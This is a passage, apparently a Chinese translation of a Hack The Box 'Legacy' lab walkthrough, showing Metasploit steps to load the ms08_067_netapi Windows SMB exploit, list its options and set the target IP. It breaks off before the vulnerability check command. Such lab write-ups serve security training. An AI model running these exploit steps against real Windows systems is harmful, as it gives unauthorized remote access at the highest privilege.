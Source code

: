 ms08_067_netapi 是针对 Microsoft Windows 的最流行的远程攻击之一。这被认为是一个可靠的利用，并允许您获得访问系统，这是最高的 Windows 特权。

![Screenshot-2019-08-04-at-18.40.33-1](img/ca1d27adff83c4aa9eedd147b85971cb.png)

我使用以下命令来利用漏洞

```
use exploit/windows/smb/ms08_067_netapi
```

这将启动漏洞利用。我使用这个命令来显示可用的选项

```
show options
```

您可以看到远程主机(RHOSTS)尚未设置。我将设置远程主机，因为运行该漏洞需要这些信息

![Screenshot-2019-08-04-at-18.43.05](img/d5625d8bc35d877e78fac52fb975684b.png)

我使用下面的命令来设置远程主机使用 HTB 遗留机的 IP 地址

```
set RHOSTS 10.10.10.4
```

您还可以在运行漏洞利用之前进行检查，确认目标易受攻击

![Screenshot-2019-08-04-at-18.44.30](img/4f1d35c780e12e00ae4ed3686b082b08.png)

我使用下面的命令进行检查
